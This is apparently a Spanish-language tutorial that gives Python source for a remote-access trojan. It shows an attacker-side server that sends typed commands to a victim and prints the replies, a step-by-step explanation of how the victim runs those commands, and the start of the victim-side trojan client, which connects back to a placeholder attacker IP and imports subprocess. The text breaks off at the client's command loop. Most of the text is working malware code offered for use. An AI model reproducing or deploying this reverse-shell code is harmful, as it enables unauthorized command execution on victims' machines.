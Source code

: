 ```python
import socket

# Dirección IP y puerto del servidor atacante
host = '0.0.0.0'  # Acepta conexiones en todas las interfaces
port = 9999        # Puerto de escucha

# Crear un socket TCP
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Vincular el socket a la dirección IP y puerto
server.bind((host, port))
server.listen(5)
print(f"Escuchando en {host}:{port}...")

# Aceptar la conexión de un troyano
client_socket, client_address = server.accept()
print(f"Conexión recibida de {client_address}")

# Mantener la conexión abierta y recibir comandos
while True:
    # Recibir comando del atacante
    command = input("Comando> ")

    # Enviar el comando al troyano
    if command:
        client_socket.send(command.encode())

        # Recibir la respuesta del troyano
        response = client_socket.recv(4096).decode()
        print(response)

```

**Paso a paso**

- Configuración del servidor: El código empieza creando un servidor en el dispositivo del atacante. La direccion IP 0.0.0.0 indica que escuchará conexiones desde cualquier dirección, el puerto 9999 indica que el servidor estará escuchando en ese puerto.
- Aceptar la conexión: El servidor espera que la víctima se conecte a él.  Al recibir la conexión, la almacenará en client_socket, para enviar y recibir datos.
- Recibir y enviar comandos: Cunado la victima esté conectada, el servidor esperará que el atacante escriba comandos en la terminal. El servidor enviará el comando a la víctima usando la conexión guardada en client_socket y después, la víctima ejecutará el comando, el servidor recibirá la respuesta de la victima y la mostrará en la pantalla del atacante.


2. Código del troyano en el dispositivo de la **victima**.

```python
import socket
import subprocess

# Dirección IP y puerto del servidor atacante
host = 'IP_DEL_SERVIDOR'  # La IP del servidor del atacante
port = 9999               # El mismo puerto que el servidor

# Crear un socket TCP
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conectar al servidor del atacante
client.connect((host, port))
print(f"Conectado al servidor {host}:{port}")

# Mantener la conexión abierta y esperar comandos
while True:
```